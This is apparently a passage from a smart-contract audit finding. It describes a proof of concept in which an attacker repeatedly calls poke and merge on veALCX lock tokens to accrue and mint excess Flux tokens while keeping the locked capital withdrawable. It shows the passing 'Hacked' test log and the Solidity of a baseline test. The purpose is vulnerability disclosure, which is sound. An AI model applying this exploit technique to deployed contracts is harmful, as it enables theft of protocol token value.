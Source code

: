 In this POC, I use 10 * 10**18 BPT token. 
The attacker create 10 tokenIds and repeately call poke(tokenId) and merge 

The log shows: 

```
[PASS] testFluxAccrual_Poke_Hacked() (gas: 175256241)
Logs:
  Start to createLock with _maxLockEnabled is false and value is 1e18 BPT
  LockedBalance of tokenId1 lock.amount: 10000000000000000000  
  LockedBalance of tokenId1 _lock.end: 1716422400  
  LockedBalance of tokenId1 _lock.cooldown: 1716422400  
  LockedBalance of tokenId1 _lock.maxLockEnabled: false  
  Call voter.poke(tokenId1)
  After having unclaimFlux, attacker can use to boost voting power or mint Flux token
  Flux token balance of the attacker: 0
  Call unclaimedFlux to mint Flux token for the attacker
  After claiming: Flux token balance of the attacker: 2970631341957030257000

```

So at the end of the attack: the attacker still have a tokenId with amount: 10000000000000000000 = 10 ** 18 
Lock duration: 2 weeks. 

So the attacker still can withdraw his capital of BPT token as normal. 

The unclaimedFlux of tokenId1: 2970631341957030257000  

## testFluxAccrual_Poke_Normal() 

I also created the normal scenario where a user lock 10 ** 10**18 BPT token. 


```solidity
function testFluxAccrual_Poke_Normal() public {
        
        address attacker = address(this); 
        console2.log("Start to createLock with _maxLockEnabled is false and value is 1e18 BPT");

        uint256 tokenId1 = createVeAlcx(attacker, 10*TOKEN_1, 2 weeks, false);
                
        IVotingEscrow_1.LockedBalance memory _lock = IVotingEscrow_1(address(veALCX)).locked(tokenId1);
        console2.log("LockedBalance of tokenId1 lock.amount: %s  ", _lock.amount);
        console2.log("LockedBalance of tokenId1 _lock.end: %s  ", _lock.end);  
        console2.log("LockedBalance of tokenId1 _lock.cooldown: %s  ", _lock.end); 
        console2.log("LockedBalance of tokenId1 _lock.maxLockEnabled: %s  ", _lock.maxLockEnabled); 
        
        console2.log("Call voter.poke(tokenId1)");          
        voter.poke(tokenId1);
        uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId1);
        console2.log("unclaimedFlux1: %s", unclaimedFlux);

        console2.log("After having unclaimFlux, attacker can use to boost voting power or mint Flux token"); 

        console2.log("Flux token balance of the attacker: %s",flux.balanceOf(attacker)); 
        console2.log("Call unclaimedFlux to mint Flux token for the attacker"); 
        flux.claimFlux(tokenId1,unclaimedFlux); 
        console2.log("After claiming: Flux token balance of the attacker: %s",flux.balanceOf(attacker));
             

    }
```
